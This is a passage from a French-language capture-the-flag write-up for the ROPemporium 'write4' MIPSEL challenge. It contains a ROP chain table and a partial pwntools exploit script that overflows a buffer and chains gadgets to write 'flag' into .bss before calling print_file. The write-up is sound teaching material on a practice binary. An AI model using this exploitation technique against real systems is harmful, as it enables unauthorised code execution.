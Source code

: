| 0x00001064 | @.bss+4 | pour `t0`
| 0x00400948 | lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop | Pour `t9`
| | | Appel print_file(@.bss)
| 0xdeadbeef | | junk |
| 0x00400a90 | print_file@plt | pour `t9`
| 0x00001064 | @.bss | pour `a0`

## Exploitation

### Script python

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time


# ROPemporium write4 MIPSEL

# Set up pwntools for the correct architecture
elf = context.binary = ELF('write4_mipsel')
context.terminal=["/usr/bin/xterm", "-fa", "Monospace", "-fs","12", "-e"]

gs='''
b *pwnme+296
c
'''

# Gadgets
# lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; sw $t1, ($t0) ; jalr $t9 ; addi $sp, $sp, 0x10
g_write = 0x00400930

# lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop
g_set_a0_and_call = 0x00400948

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


print_file = elf.plt["print_file"]
bssaddr = elf.get_section_by_name('.bss').header['sh_addr']

log.info(f"{bssaddr=:x}")
log.info(f"{print_file=:x}")

offset=0x24

PL=b"A"*offset
# first gadget write "flag"
PL+=p32(g_write)
PL+=p32(0xdeadbeef)        # junk
PL+=b'flag'                # t1
PL+=p32(bssaddr)           # t0
PL+=p32(g_write)           # t9 => next gadget

```
